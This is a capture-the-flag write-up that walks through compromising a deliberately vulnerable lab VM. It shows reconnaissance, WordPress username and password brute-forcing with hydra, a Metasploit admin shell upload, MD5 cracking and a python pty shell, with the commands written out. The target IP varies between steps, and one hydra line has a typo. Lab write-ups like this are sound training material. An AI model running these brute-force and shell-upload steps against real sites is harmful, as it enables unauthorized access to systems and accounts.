


# Setting Up the Virtual Lab for Machine, I am using Virtual Box 
# Creating a Virtual Lab
1. create a NAT Network in Virtual Box


2. Go to Network Setting and connect the machines network to created NAT Network


3. Now Start Both the Machines

# Phase 1: Reconnaissance

This VM gets it’s IP address from the DHCP, so through a quick network scan, I saw that the machine was running on 192.168.100.4

For a convenince, I have given a host to server 192.168.100.4 as hacknest.net


 Time to make some notes again. There are two main services active across three ports. An SSH server and an Apache webserver. We can also see it’s running on a VirtualBox, not that it matters for our assessment or not like we didn’t already know this.

# Phase 2: Information Gathering
As port 80 is open let's open it up in browser,


On the website, a boot animation loads, giving us some sort of fake web shell. Upon further investigation, I noticed that the commands don’t really do anything special, other than giving some videos

As it is a web server lets open robots.txt,


### BAMM !! 🔓 We got our our first flag 
Download the Key 1 file to get the flag


We also got a fsocity.dic, I come to know from its extension that it is a dictionary file, now lets check its content,I sorted and filtered unique values from file and got around 11k words


### Let's Scan the website for login page to get adminstrative rights for website

Here I am using nikto to scan the web server

`nikto -h hacknest.net `

#### Here's the result of the Nikto and we got that website is running on wordpress and also the login URL..


# Phase 3: Exploitation
The great thing about this WordPress version is that you can enumerate usernames of users on the WordPress installation. How? Basically as follows:

If you write some random gibberish in the login form, you will get the following error:

> ERROR: Invalid username. Lost your password?

If, however, you get a valid username, you’ll get a different error:

> ERROR: The password you entered for the username pablo is incorrect. Lost your password?

Knowing this, we can try a bunch of usernames and check if there is any difference in the error messages. We have our wordlist from before, so it would be my first guess to try that one.

The tool we’re going to be using is hydra. The best tool for bruteforcing anything. But before we go ahead and launch it, we need to check what the requests to log into a WordPress site looks like.

In order to capture that request, I’m going to use Burp Suite as a proxy in between my browser and the target.


We see 3 important parameters:

-   **log**  — The username
-   **pwd**  — The password
-   **wp-submit**  — The “thing” we’re submitting (log in)


Let’s throw this into hydra:

```bash

hydra -L fsocity_filtered.dic -p something 192.168.1.56 http-post-form ‘/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username’
```

-   -L fsocity_filtered.dic — Here we will bruteforce the login using our wordlist we found earlier
-   -p — Here we supply a password, at this stage, we only want the username, so it doesn’t matter what we fill in here
-   192.168.1.56 — Our target
-   http-post-form — The method we’re bruteforcing, in this case, a POST request


**Elliot**  seems to be our username, now let’s do this again but checking for the password. The new hydra command will be:

```bash
hydra -l elliot -P fsocity_sorted.dic hacknest.net http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit-Log+In:F=is incorrect' 
```


Now we can leverage the WordPress admin to get a shell on the webserver. For this, we’ll use Metasploit.

### Start the metasploit using following command
```bash
msfconsole
```

#### Search for the wordpress shell exploit and use it

```bash
msf6 > search wordpress shell
```

#### Select and copy the following exploit
```bash
exploit/unix/webapp/wp_admin_shell_upload
```

#### Now configure the exploit for target:
```bash
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set RHOST 192.168.100.4

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME elliot

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD ER28–0652

exploit
```

#### When I exploit it,I got the following error:


#### The error occured because the WordPress installation isn’t really being used, but still we can get the admin privileges

We can set **wpcheck false** and run the exploit

### Bammm ! we got the meterprter shell and now we have to search for the 2nd flag



If we now go to the user’s desktop at /home/robot, we can see the second key there, as well as a file called password.raw-md5.


# Phase 4: Privilege Escalation

Looking at the contents of that raw-md5 file, we can indeed see an MD5 hash for the account ‘robot’.


> robot:c3fcd3d76192e4007dfb496cca67e13b

#### I cracked the MD5 hash using [CyberChef](https://gchq.github.io/CyberChef/) and [crackstation](https://crackstation.net/)

#### The hash in plain text is **abcdefghijklmnopqrstuvwxyz**

### Now let's try logging in as robot
### I got the following error:


### Its telling us to start the tty shell, we can start the tty shell using python command as follows:

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Finally we logged in as robot the got the flag 2 🎉🎉
